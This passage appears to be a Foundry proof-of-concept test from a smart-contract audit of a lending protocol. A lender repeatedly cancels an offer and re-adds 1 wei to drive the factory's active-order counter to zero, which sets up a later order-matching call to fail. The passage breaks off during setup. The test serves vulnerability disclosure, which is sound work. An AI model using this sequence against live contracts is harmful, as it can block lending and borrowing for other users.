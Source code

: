 ```solidity
        vm.startPrank(borrower);
        USDCContract.approve(address(DBOFactoryContract), 100e18);

        address borrowOrderAddress = DBOFactoryContract.createBorrowOrder({
            _oraclesActivated: oraclesActivated,
            _LTVs: ltvs,
            _maxInterestRate: 1400,
            _duration: 864000,
            _acceptedPrinciples: acceptedPrinciples,
            _collateral: USDC,
            _isNFT: false,
            _receiptID: 0,
            _oracleIDS_Principles: oraclesPrinciples,
            _ratio: ratio,
            _oracleID_Collateral: address(0x0),
            _collateralAmount: 10e18
        });

        vm.stopPrank();

        // Lender1 begins the attack
        // check DLOFactory::activeOrdersCount == 3
        assertEq(DLOFactoryContract.activeOrdersCount(), 3);

        // lender1 cancels the offer -> DLOFactory::activeOrdersCount == 2
        vm.startPrank(lender1);
        DLOImplementation(lendOffer1).cancelOffer();

        // addFunds (1 wei)
        wETHContract.approve(lendOffer1, 3);
        DLOImplementation(lendOffer1).addFunds(1);

        // cancelOffer again -> DLOFactory::activeOrdersCount == 1
        DLOImplementation(lendOffer1).cancelOffer();

        // addFunds (1 wei)
        DLOImplementation(lendOffer1).addFunds(1);

        // lender1 cancels the offer -> DLOFactory::activeOrdersCount == 0
        DLOImplementation(lendOffer1).cancelOffer();

        vm.stopPrank();

        // check DLOFactory::activeOrdersCount == 0
        assertEq(DLOFactoryContract.activeOrdersCount(), 0);

        // now try to call mathOffersV3 -> should fail
        address[] memory lendOrders = new address[](1);
        uint[] memory lendAmounts = allDynamicData.getDynamicUintArray(1);
        uint[] memory percentagesOfRatio = allDynamicData.getDynamicUintArray(
            1
        );
        uint[] memory indexForPrinciple_BorrowOrder = allDynamicData
            .getDynamicUintArray(1);
        uint[] memory indexForCollateral_LendOrder = allDynamicData
            .getDynamicUintArray(1);
        uint[] memory indexPrinciple_LendOrder = allDynamicData
            .getDynamicUintArray(1);

        lendOrders[0] = lendOffer3;
        percentagesOfRatio[0] = 10000;
        lendAmounts[0] = 5e18;

```
